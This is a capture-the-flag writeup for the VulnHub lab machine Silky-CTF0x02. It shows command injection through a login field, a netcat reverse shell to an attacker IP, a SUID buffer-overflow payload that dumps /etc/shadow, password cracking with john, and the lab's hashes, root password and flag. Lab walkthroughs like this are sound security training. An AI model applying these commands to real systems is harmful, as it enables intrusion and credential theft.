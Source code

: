 % Silky-CTF0x02 Writeup  
(available on VulnHub)
% Author: Anthony Criscione (arc32x)


## Info Gathering

### nmap -p- -T4 -A -v silky
- **Open Ports**
  - 22: OpenSSH 7.4p1
  - 80: Apache httpd 2.4.25

### dirb http://silky
- **Found Directories**
  - http://silky/admin.php (CODE:200|SIZE:3702)
  - http://silky/index.html (CODE:200|SIZE:10701)
  - http://silky/server-status (CODE:403|SIZE:293)

### nikto -h http://silky
- **Found nothing of interest**

### nikto -h "http://silky/admin.php?username=&password="
- OSVDB-44056: /admin.php/sips/sipssys/users/a/admin/user: SIPS v0.2.2 allows user account info (including password) to be retrieved remotely.

### Manual SQLi
- **Found nothing of interest**

### Manual RCE
- **Found RCE in username field (login box or URL)**
- Ex: silky/admin.php?username=pwd; ls; id; uname -a; cat /etc/passwd&password=test123


## Exploitation

### Established nc reverse shell through RCE in username field
  - Attacker: nc -lvp 4444
  - Target: nc 192.168.56.102 4444 -e /bin/sh
  - Better terminal with python: python -c "import pty; pty.spawn('/bin/bash')"


## Privilege Escalation

### sudo -l
- **Found nothing of interest (password required)**

### find / -perm -u=s -type f 2>/dev/null
- **Found suspicious program w/ SUID bit set: /home/silky/cat_shadow**
  - Moved to /home/silky and attempted to run **./cat_shadow**; password required
  - Tried with test password to observe behavior:

    ```bash
    www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow test123
    Trying to cat /etc/shadow
     Permisson denied! 
     0x00000000 != 0x496c5962
    www-data@Silky-CTF0x02:/home/silky$
    ```

### Program w/ SUID Bit Prints Shadow File
- Shadow file contains user passwords. Though a password is required to execute cat_shadow, **0x00000000 != 0x496c5962** suggests memory corruption (buffer overflow, etc.) might be possible to override the password and print the shadow file; while the SUID bit suggests we might be able to use the overflow to get a root shell directly through cat_shadow. Either should result in root access.

### Testing Buffer Overflow

```bash
www-data@Silky-CTF0x02:/home/silky$  
./cat_shadow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Trying to cat /etc/shadow
 Permisson denied! 
 0x41414141 != 0x496c5962
www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow $(python -c "print 'A'*100")
Trying to cat /etc/shadow
 Permisson denied! 
 0x41414141 != 0x496c5962
```

- **Found Oveflow**
  - Passing a large number of A's in as the password input results in **0x41414141**, which is AAAA (41 is A when converted from hex to ASCII, see ASCII table with *man ascii*).
  - We need to push **0x496c5962** to this location as indicated in the output inequality. To do so, we need to know how big the buffer is (ie. where the overflow occurs), and use this to pad our input string before pushing the expected value.
- **Finding Buffer Size**
  - We can use a random pattern of characters to find the desired offset using Metasploit's *msf-pattern_create* and *msf-pattern_offset*.
    - Attacker: msf-pattern_create -l 100
      - Pattern returned:  
        Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    - Target:  
      ./cat_shadow Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
      - Target returned: 0x63413163 != 0x496c5962
    - Attacker: msf-pattern_offset -q 63413163
      - Offset returned: Exact match at offset 64
  - So we need to pad our input with 64 characters to overflow the buffer, and then push the expected value into the next location in memory (which is what's being compared to). This can easily be done with python.

### Exploiting Buffer Overflow
- We just need to execute cat_shadow with our exploit string provided as the input password. We know we need to pad the input with 64 A's to overflow the buffer. After that we just need to append the expected hex values. However, due to little-endianness, these values need to be pushed in reverse (maintaining bytes, or hex pairs). Python makes all of this simple:
  - Target: ./cat_shadow $(python -c "print 'A'*64 + '\\x62\\x59\\x6c\\x49'")
- Exploit successful! The target shadow file is printed to the terminal.

> Trying to read /etc/shadow  
> Succes  
> Printing...  
> root:$6$L69RL59x$ONQl06MP37LfjyFBGlQ5TYtdDqEZEe0yIZIuTHASQG/dgH3Te0fJII/Wtdbu0PA3D/RTxJURc.Ses60j0GFyF/:18012:0:99999:7:::  
> daemon:*:18012:0:99999:7:::  
> [redacted]  
> silky:$6$F0T5vQMg$BKnwGPZ17UHvqZLOVFVCUh6CrsZ5Eu8BLT1/uX3h44wtEoDt9qA2dYL04CMUXHw2Km9H.tttNiyaCHwQQ..2T0:18012:0:99999:7:::  
> mysql:!:18012:0:99999:7:::  
> sshd:*:18012:0:99999:7:::  

- We could obtain silky's password if we wanted, but may as well get root.

### Cracking root Password
- Copied shadow file contents to attacker machine for cracking (saved as *silky_shadow*). Also printed and copied contents of */etc/passwd* (saved as *silky_passwd*).
- **unshadow silky_passwd silky_shadow > silky_john**
- **john silky_john --wordlist=/usr/share/wordlists/rockyou.txt**
- After some time, the cracked password is returned:  
  **greygrey	(root)**


## Privilege Escalation
- Finally we can *su root* with password *greygrey*.


## Capturing the Flag
- *cd /root && ls*
- *cat flag.txt*
- Flag obtained: **d1f258a6ec26dffbbdec79f68890a5e8**
